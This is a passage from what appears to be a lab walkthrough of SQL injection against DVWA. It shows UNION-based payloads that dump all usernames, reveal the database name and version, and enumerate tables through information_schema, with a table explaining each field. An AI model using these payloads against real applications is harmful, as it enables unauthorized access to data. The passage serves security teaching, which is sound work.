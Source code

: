 
The UNION'd selection appends an additional entry to the output.

Looks like the output just recursively displays every row returned in the query.

(Try: using `1' OR 1=1 #` will return all usernames in the table!)

# 5. Retrieve database/version/user information

Input: `1' UNION SELECT DATABASE(),VERSION() #`

Output:

![image](images/sqli-dvwa-4.png)

# 6. Enumerate tables

Input: `1' UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=database() #`

| Field | Description |
| --- | --- |
| `TABLE_SCHEMA` | The database which the table belongs to |
| `TABLE_NAME` | The name of the table |
| `information_schema.TABLES` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:
